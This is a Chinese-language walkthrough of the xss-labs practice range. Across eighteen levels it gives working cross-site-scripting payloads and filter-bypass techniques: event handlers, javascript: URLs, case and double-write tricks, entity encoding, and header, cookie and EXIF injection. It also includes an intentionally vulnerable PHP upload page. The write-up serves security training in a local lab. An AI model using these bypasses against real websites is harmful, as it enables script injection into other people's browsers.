






# xss-labs靶场实战

## 环境搭建

docker安装

```bash
docker pull vulfocus/xss-labs
```

运行：

```bash
docker run --name xss-labs -p 80:80 -d vulfocus/xss-labs 
```


## 实战

### level 1

查看js代码就可以直接闭合

payload:

```html
test<script>alert(1)</script>
```

### level 2

查看js代码就可以直接闭合

payload：

```html
test"><script>alert(1)</script>
```


### level 3 单引号+事件绕过

发现后端对输入做了实体编码

查看源码发现使用了htmlspecialchars对字符串中的特殊字符进行处理（转化为html实体）

`htmlspecialchars(string, flags, enconding， double_encode)`:

- string:要转换的字符串
- flags：指定要转换的字符和文档类型，默认仅编码双引号
- enconding：指定字符串的编码，默认值根据php版本不同而不同，如果没有指定编码或指定错误的编码就可能导致绕过
- double_encode:指定是否对已经是实体的字符再次进行转换，默认为true，表示会再次转换

**由于默认只编码双引号**，由此可以尝试使用单引号绕过，由于尖括号也被编码，因此考虑通过事件来执行xss代码，如此payload为：

```html
test' onclick='javascript:alert(1)'
```


### level 4 双引号+事件绕过

与level 3类似，不过是使用双引号去绕过

```html
test" onclick='javascript:alert(1)'
```

而且发现后台是使用str_replace对特殊字符进行删除的




### level 5 伪协议绕过

- 强制小写
- 在script、on这两个关键字中间插入`_`

因此可以尝试通过js伪协议执行js脚本

```html
test"><a href=javascript:alert(1)>123456</a>
```

当点击123456就会触发

类似的：

```html
test"><object data=javascript:alert(1)>

test"><iframe src="javascript:alert(1)">
```

更多这样的标签请参照[跨站点脚本 （XSS） 备忘单 - 2023 版 |网络安全学院 (portswigger.net)](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#consuming-tags)

里面的protocol部分全是类似的语句

### level 6 大小写绕过

- 在script、on、src、data、href这几个关键字中间插入`_`

查看源码观察到过滤的关键字更多了



但似乎忘记了处理大小写，因此可以使用大小写绕过

```html
test"><a HREF=javascript:alert(1)>123456</a>
```

或是

```
test"><SCRIPT>alert(1)</script>
```


### level 7 双写绕过

查看源码发现

- 强制小写
- 过滤script、on、src、data、href这几个关键字

可以尝试双写绕过，因为后台是删除这些关键字，而非是替换

比如：

```html
test"><scrscriptipt>alert(1)</scrscriptipt>
```

亦或是

```html
test"><object dadatata=javascscriptript:alert(1)>
```


### level 8 html实体化编码绕过

查看源码发现

- 强制小写
- 在script、on、src、data、href这几个关键字中间插入`_`
- 对`"`进行html实体化编码

```js
java&#115cript:alert(1)
```

`&#115`是html实体编码，它代表的字符是`s`


### level 9 html实体化编码绕过+包含'http://'

- 强制小写
- 在script、on、src、data、href这几个关键字中间插入`_`
- 对`"`进行html编码
- 使用strpos寻找`http://`，这里用于过滤伪协议

可以考虑引用在远端服务器的脚本，当点击连接就会弹框，当然也可以在alert中包含`http://`这个字符串即可

```js
java&#115cript:alert('http://');
```


### level 10 input隐藏参数注入

这关一开始看着挺懵的，后来发现，他想表达的是我们可以看到的参数可能无法进行xss注入，而隐藏的参数可能一击建功。



查看源码，显然keyword是无法进行xss注入的，而t_sort可以，因此注入：

```
keyword=123456&t_sort=test" type=image src=1 onerror="alert(1)
```

然后顺便闭合一下后面的引号


### level 11 referer注入



这次注入点是`t_ref`，需要在referer注入

```
GET /level11.php HTTP/1.1
Host: 192.168.194.152
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer:" type=image src=1 onerror="alert(1)
Connection: close
Upgrade-Insecure-Requests: 1
```

注入的payload为：

```js
" type=image src=1 onerror="alert(1)
```

### level 12 ua注入

paylaod为：

```js
" type=image src=1 onerror="alert(1)
```

换成了在ua中注入


### level 13 cookie注入

paylaod为：

```js
" type=image src=1 onerror="alert(1)
```

换成了在cookie中注入


### level 14 exif图片注入

图片exif是一种可交换图像文件格式，它可以记录数码照片的属性信息和拍摄数据，比如相机品牌、型号、光圈、快门、ISO、焦距、拍摄时间、GPS定位等。您可以通过在线工具查看照片的exif信息，但请注意只有原始数字照片才有完整的exif数据，如果照片被编辑或转发过，exif信息可能会变化或丢失

简单来说就是上传一个图片，然后页面显示图片的exif信息，通过修改图片的exif信息就可能会造成注入

添加一个PHP文件（`1.php`）与level同目录

```
<?php
   echo '
   <html>
    <head>
    <meta http-equiv="content-type" content="text/html;charset=utf-8">
    <title>欢迎来到level14</title>
    </head> 
   <center>
   <form action="1.php" method=POST enctype=multipart/form-data>
   <label for=file>文件名：</label><input type=file name=file id=file><br>
   <input type=submit name=submit value=提交></form></center></html>';
 
    try{
        // 允许上传的图片后缀
        $allowedExts = array("gif", "jpeg", "jpg", "png");
        $temp = explode(".", $_FILES["file"]["name"]);
        $extension = end($temp);     // 获取文件后缀名
        if ((($_FILES["file"]["type"] == "image/gif")
        || ($_FILES["file"]["type"] == "image/jpeg")
        || ($_FILES["file"]["type"] == "image/jpg")
        || ($_FILES["file"]["type"] == "image/pjpeg")
        || ($_FILES["file"]["type"] == "image/x-png")
        || ($_FILES["file"]["type"] == "image/png"))
        && ($_FILES["file"]["size"] < 204800)   // 小于 200 kb
        && in_array($extension, $allowedExts))
        {
            if ($_FILES["file"]["error"] > 0)
            {
                echo "错误：: " . $_FILES["file"]["error"] . "<br>";
            }
            else
            {
                echo "上传文件名: " . $_FILES["file"]["name"] . "<br>";
            }
            move_uploaded_file($_FILES["file"]["tmp_name"], $_FILES["file"]["name"]);
        }
        else
        {
            echo "非法的文件格式";
        }
        $file = $_FILES["file"]["name"];
 
        $exif = exif_read_data($file, 0, true);
        echo "<h4>[ ".$file." ]的EXIF信息:</h4>";
        foreach ($exif as $key => $section) {
            foreach ($section as $name => $val) {
                echo "$key.$name: $val<br />\n";
            }
        }
    }catch (Exception $e){
        echo $e;
    }
?>
```

然后修改一下`level14.php`中的src为`1.php`


重新访问level14.php并准备任意一张图片，修改属性：


上传，并click here就会触发xss漏洞：




### level 15 ng-include绕过(有些地方还有疑惑，插个眼)


在页面中发现了ng-include，ng-include 指令用于包含外部的 HTML 文件

默认情况下，包含的文件需要包含在同一个域名下，否则会遇到跨域问题

如果想引用远端服务器的html文件，可以使用CORS或者JSONP等跨域解决方案。

如何实现跨域访问

- script、img、iframe、link等标签，这些带有src属性的标签加载的资源不能为js所读写（也就是只能加载而不能读写），但都可以跨域加载资源而不受同源策略的限制
- 跨域资源共享（CORS）：服务器会通过http头中的Access-Control-Allow-Orgin来表明是否允许浏览器跨域访问，这这取决于JS不会影响http头（一般不会）



查看源码发现，提交的参数名为`src`，最后会在span的class属性中进行注入

使用htmlspecialchars对双引号进行了转义，而闭合字符恰又是双引号，故而无法考虑单引号绕过htmlspecialchars，而ng-include是AngularJS的一个指令，用于从外部文件中包含HTML内容。如果**外部文件或者表达式**返回的文件名包含了xss漏洞，那么就可能被攻击者利用来执行恶意脚本。

直接引入一个外部html发现不能成功：

```js
src='http://192.168.194.152:8000/1.html'
```

那好吧，就引用本地的吧：

```js
src='level1.php?name=<iframe src=javascript:alert(1)>'
```

然后弹框成功，类似的还有

```js
src='level1.php?name=<a href=javascript:alert(1)>click here</a>'

src='level1.php?name='

src='level1.php?name=<link rel=stylesheet type=text/css href=invalid.css onerror=alert(1) />'
```

也是可以的，但是我发现`<script>alert(1)</script>`是不行的，为什么？

对`<script>alert(1)</script>`进行一次url编码：

```
192.168.194.152/level15.php?src='level1.php?name=%3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%31%29%3c%2f%73%63%72%69%70%74%3e'
```

一次url编码是无效的，因为在数据到达后端前会进行一次url解码，而且一次url全编码主要是针对特殊符号`#`和`&`,无法真正实现绕过。

当存在特殊字符`#`和`&`时，就需要对这两个特殊字符进行url编码，想要绕过后端，采用的编码应该是后端不用而浏览器用的编码，但这往往需要需要手动设置浏览器编码，能够成功攻击的可能性很小。

脚本无法执行的原因就是`<script>alert(1)</script>`中的script没有被当做一个标签，因为`<`和`>`被转义了，而伪协议可以正常运作就是因为`javascript:alert(1)`被当做字符串就行了，所以可以对他进行html实体化编码以绕过后端

另外，引用外部或内部的js文件都会失败：

```
src='level1.php?name=<script src=http://192.168.194.152:8000/1.js></script>'
```

外部的失败很好理解，因为ng-include默认不支持，但是引用内部的js会失败就很难理解了，**所以先插个眼**

### level 16 空格+html实体化编码绕过

这一关是：

- 强制小写

- 将`script`、`"`、`/`、` `替换为`&nbsp`


先考虑img，这样就只用考虑对空格进行替换：

```

```

要绕过空格，可以使用空白字符，如tab（%09、%0b）、换行符（%0a）、回车符（%0d）、换页符（%0c）

```html
<iframe%0csrc=java%26%23115;cript:alert(1)>

<iframe%0dsrc=java%26%23115;cript:alert(1)>

<iframe%0asrc=java%26%23115;cript:alert(1)>
    
<iframe%0bsrc=java%26%23115;cript:alert(1)>
    
<a%0chref=java%26%23115;cript:alert(1)>click_here

```

将这些输入地址栏的keyword参数里都可以成功

再考虑如果想用`/`怎么办，


### level 17 embed+空格绕过

发现链接里面存在两个参数：

```
http://192.168.194.152/level17.php?arg01=a&arg02=b
```

经过尝试，发现在Edge浏览器中下面url可以成功，而火狐不可以

```
http://192.168.194.152/level17.php?arg01=a&arg02=a%0conerror=alert(1)%0ctype=image/gif
```

这其实利用的就是

```html
<embed src=1 onerror=alert(1) type=image/gif>
```

这一关的源码就是：

```
<embed src=xsf01.swf?".htmlspecialchars($_GET["arg01"])."=".htmlspecialchars($_GET["arg02"])
```

可能只是想考察embed标签的利用

### level 18

```
http://192.168.194.152/level18.php?arg01=a&arg02=a%0conerror=alert(1)%0ctype=image/gif
```

和level 17的一样

查看源码没有变化


## 总结

js执行的位置主要有两个地方（也是注入点）：

1. 在标签外部
2. 在标签内部的属性中事件

bypass:

1. 编码绕过

   在进行编码绕过的时候，除非浏览器会做对应的解码操作，否则将不能成功。

   比如：

   ```
   <a href="javascript:alert(1)">123456</a>
   ```

   由于`javascript:alert(1)`是一段字符串，用户点击链接就会触发xss，假如script被替换，恰如level 8，html实体化编码就可以绕过，但是，如果是一段js代码

   ```
   <&#115cript>alert(1)</&#115cript>
   ```

   html实体化编码后只会把它当做文本，而不是标签。

   

   

